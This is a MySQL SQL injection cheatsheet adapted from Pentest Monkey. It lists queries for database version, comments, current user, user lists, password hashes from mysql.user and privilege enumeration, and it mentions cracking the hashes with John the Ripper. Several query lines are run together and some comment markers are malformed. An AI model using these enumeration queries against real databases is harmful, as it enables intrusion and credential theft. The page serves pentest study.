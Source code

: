 # MySQL SQL Injection Cheatsheet

This page is for SQL injection, for exploitation, misconfigurations and abuse of a MySQL database where you can access the database directly visit [[MySQL-Hacking]].  This page started as fixed version of Pentest Monkey cheatsheet that is old, but gold - it happen to use Unicode quotes so this is the *fixed* version. Other techniques, consideration and mitigation, etc will be added here over time.

#### MySQL SQL Injection Cheatsheet - Fixed From Pentest-Monkey

Fixed the Unicode single quotes for copy and paste -able. Pentest Monkey is Awesome.

Version
```sql
SELECT @@version
```

Comments
```sql
SELECT 1; #comment
SELECT /*comment*/1;
```

Current User 	
```sql
SELECT user();
SELECT system_user();
```

List Users 	
```sql
SELECT user FROM mysql.user; — priv
```

List Password Hashes 	
```sql
SELECT host, user, password FROM mysql.user; — priv
```

Password Cracker John the Ripper will crack MySQL password hashes.

List Privileges 	
```sql
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns
```

List DBA Accounts 	
```sql
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; # priv
```
